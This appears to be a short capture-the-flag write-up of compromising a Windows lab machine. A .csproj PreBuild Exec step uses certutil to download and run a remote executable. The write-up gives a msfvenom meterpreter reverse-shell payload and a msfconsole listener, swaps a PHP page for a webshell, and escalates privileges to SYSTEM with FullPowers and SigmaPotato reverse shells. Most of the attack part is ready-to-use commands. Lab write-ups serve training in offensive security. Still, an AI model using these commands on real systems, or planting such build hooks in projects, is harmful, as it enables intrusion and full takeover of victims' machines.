

# Git with vengeance 

Build a solution from Visual Studio code. C# project will do. 

Right click on the project and go to the build section.


Load a payload into the pre-compile actions.
Which can be found in the picture below. This is located at `*.csproj`


Utilizing the PreBuild tag, the Exec command = PAYLOAD

---

First attempt failed, Reverse shell in the Prebuild is crashing or having some kind of issue. 

Need to change from powershell reverse shell into a MSFpayload with metasploit


Build failed (Sad Trombone)
But what did work was getting wells correct .sln file.

```pre
  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="certutil -f -urlcache http://10.10.14.4:6969/plz.exe c:\users\public\plz.exe&#xD;&#xA;c:\users\public\plz.exe" />
```

This is how inside the .csproj we get the payload to fire.


Payload was 
```msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.4 LPORT=9001 -f exe -o plz.exe

```

Listener was 

```msfconsole
sfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/
reverse_tcp; set lhost 10.10.14.4; set lport 9001; exploit"
```


This is the server yanking the files from me and finally executing my staged payload.

Doing some WinPEAS we can find the service XAMPP hosting the webpage we interact with

Doing 
```
C:\ dir /B /S index.php 
```


We can find the Area for the webpage we have been interacting with


From here we can replace the submit.php file with a php webshell

From the some of our shells we can use certutil.exe to bring another staged payload to the box, but host it on another port. 


From here we can use the webshell we moved onto the box. Browse to the /submit.php 


We now have the access level of 

Nice but not quite what we need. Working with dabois we found FullPower.exe 

https://github.com/itm4n/FullPowers
On Windows, some services executed as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to **run with a restricted set of privileges**. Therefore, even if the service is compromised, **you won't get the golden impersonation privileges** and privilege escalation to `LOCAL SYSTEM` should be more complicated. However, I found that, when you **create a scheduled task**, the new process created by the **Task Scheduler Service** has **all the default privileges** of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.


So once we run that we now have the ability to gain SEimpersonate YIPEEE

Now using Tylers WICKED updated SIGMA POTATO https://github.com/tylerdotrar/SigmaPotato Which he lovingly built in with a revshell. 

FullPower.exe; SigmaPotato.exe --revshell IP PORT


YEEEEE

